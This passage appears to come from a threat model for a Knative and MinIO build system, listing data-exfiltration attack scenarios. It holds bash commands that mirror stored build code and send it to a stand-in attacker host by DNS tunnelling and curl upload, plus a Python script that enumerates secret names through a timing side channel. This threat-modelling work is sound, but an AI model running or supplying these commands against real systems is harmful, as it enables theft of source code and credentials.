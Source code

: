 
---

### 4. Data Exfiltration (P0)

#### Attack Scenario: Steal All Build Source Code
```bash
# ATTACK: Access S3/MinIO buckets and exfiltrate everything

# Step 1: Get MinIO credentials from environment or secrets
# (Already extracted in Attack #2)

# Step 2: Access MinIO directly
mc alias set target https://minio.homelab ACCESS_KEY SECRET_KEY

# Step 3: List all build contexts
mc ls target/build-contexts/ --recursive

# Step 4: Download everything
mc mirror target/build-contexts/ ./stolen-code/

# Step 5: Exfiltrate via DNS tunneling (avoid egress detection)
for file in ./stolen-code/*; do
  data=$(base64 -w0 $file | fold -w 50)
  for chunk in $data; do
    dig $chunk.exfil.attacker.com
  done
done

# Alternative: Exfiltrate via HTTPS (looks like normal traffic)
tar czf - ./stolen-code | curl -T - https://attacker.com/upload
```

#### Exploit: Timing Attack for Secret Enumeration
```python
# ATTACK: Enumerate secrets via timing side-channel

import time
import requests

def timing_attack(secret_name):
    """
    If secret validation has timing differences,
    we can enumerate valid secret names
    """
    start = time.time()
    r = requests.post('http://knative-lambda/cloudevents', json={
        'type': 'build.started',
        'data': {
            'secretRef': secret_name
        }
    })
    elapsed = time.time() - start
    return elapsed

# Timing differences reveal valid secrets
possible_secrets = ['aws-creds', 'minio-creds', 'registry-auth']
for secret in possible_secrets:
    t = timing_attack(secret)
    print(f"{secret}: {t:.4f}s")
    # Valid secrets take longer due to decryption
```

---